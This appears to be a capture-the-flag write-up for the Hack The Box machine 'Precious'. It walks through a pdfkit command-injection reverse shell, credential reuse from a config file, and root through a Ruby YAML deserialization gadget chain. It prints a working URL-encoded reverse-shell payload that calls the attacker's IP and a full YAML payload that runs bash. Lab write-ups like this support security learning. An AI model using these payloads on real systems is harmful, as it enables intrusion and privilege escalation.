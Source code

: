## Nmap
From the nmap scan, we are only able to find open ports 22 and 80 on the target IP
![nmap](https://github.com/joelczk/writeups/blob/main/HTB/Images/Precious/nmap.png)

## Exploiting Port 80
Navigating to Port 80, we realize that this is a site that converts html documents to pdf documents, and the site takes in the html documents from a remote host. Capturing the request body, we also realize that the site uses a vulnerable version of ```pdfkit``` that can be used to do remote code execution
![pdfkit](https://github.com/joelczk/writeups/blob/main/HTB/Images/Precious/pdfkit.png)

Modifying the url parameter in the request body to the payload below, we are able to create a reverse shell connection to our local listener

```
url=http%3A%2F%2F10.10.16.2%3A443%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.10.16.2%22%2C80%29%29%27%60
```

![Reverse shell](https://github.com/joelczk/writeups/blob/main/HTB/Images/Precious/reverseshell.png)

## Privilege Escalation to Henry
In the /home/ruby/.bundle.config file, we are able to find the credentials for the ```henry``` user and we can then escalate our privileges to the henry user

![henry creds](https://github.com/joelczk/writeups/blob/main/HTB/Images/Precious/henry_creds.png)

## Obtaining user.txt
After escalating our privileges to the Henry user, we are then able to obtain the user flag
![user flag](https://github.com/joelczk/writeups/blob/main/HTB/Images/Precious/user_txt.png)

## Privilege Escalation to root user
Using ```sudo -l```, we realize that our current user is able to execute ```opt/update_dependencies.rb``` with root permissions. Checking the source code of ```update_dependencies.rb```, we realize that this is using a vulnerable ```yaml.load``` function which can be used for YAML deserialization attacks.
Next, we will create a ```dependency.yaml``` file with the following contents in the ```/home/henry``` directory

```
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: /bin/bash
          method_id: :resolve 
```
Executing ```/opt/update_dependencies.rb``` with root privileges will then give us a root shell

![Root Shell](https://github.com/joelczk/writeups/blob/main/HTB/Images/Precious/root.png)

## Obtaining root.txt
![root.txt](https://github.com/joelczk/writeups/blob/main/HTB/Images/Precious/root_txt.png)
